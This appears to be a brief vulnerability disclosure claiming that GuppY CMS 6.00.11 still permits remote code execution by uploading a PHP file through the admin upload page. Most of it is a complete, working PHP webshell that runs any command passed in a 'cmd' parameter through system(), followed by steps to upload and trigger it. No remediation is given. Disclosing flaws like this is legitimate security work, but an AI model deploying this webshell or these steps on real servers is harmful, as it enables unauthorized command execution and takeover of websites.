

# GuppY CMS 6.00.11 Remote Code Execution via Upload File
## Author: Tuannq

In previous version (6.00.10), this CMS is vulnerable to RCE vulnerability via uploading malicious file.

It's said that, the vulnerability has been fixed in version 6.00.11. However, after testing, I found out that, I can still upload the PHP file, and execute command via the uploaded webshell.

> GuppY version 6.00.11

Access the path: `http://localhost/guppy/admin/admin.php?lng=en&pg=upload`
Upload the PHP webshell.

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```

Access the uploaded file, and execute command via `cmd` parameter.


View the response and confirm that the command is executed.

